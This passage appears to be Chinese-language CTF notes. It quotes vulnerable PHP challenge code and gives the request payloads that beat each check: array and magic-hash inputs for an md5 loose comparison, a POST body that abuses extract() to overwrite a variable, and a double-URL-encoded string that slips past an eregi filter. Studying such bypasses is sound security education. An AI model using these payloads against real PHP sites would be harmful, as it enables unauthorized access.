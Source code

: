 ```bash
if ($_GET['a'] != $_GET['b'])
if (md5($_GET['a']) == md5($_GET['b']))
die('Flag: '.$flag);
else
print 'Wrong.';
}
```
构造payload
```bash
?a[]=1&b[]=2
```
或者
```bash
?a=QNKCDZO&b=240610708
```
# 变量覆盖
```bash
<?php
include("secret.php");
?>
<?php if ($_SERVER["REQUEST_METHOD"] == "POST") { ?>
                        <?php
                        extract($_POST);
                        if ($pass == $thepassword_123) { ?>
                            <div class="alert alert-success">
                                <code><?php echo $theflag; ?></code>
                            </div>
                        <?php } ?>
                    <?php } ?>
```
直接构造
```bahs
pass=1&thepassword_123=1
```
#php是世界上最好的语言 

```bash
<?php
if(eregi("hackerDJ",$_GET[id])) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "hackerDJ")
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: *****************} </p>";
}
?>
```
url编码，传输过去默认会解码一次，所以我们不能只加密一次,将hackerDJ进行url加密两次，构造
```bash
id=%25%36%38%25%36%31%25%36%33%25%36%42%25%36%35%25%37%32%25%34%34%25%34%41
```
[ereg和eregi](http://blog.csdn.net/shaobingj126/article/details/6861646)
# 上传绕过
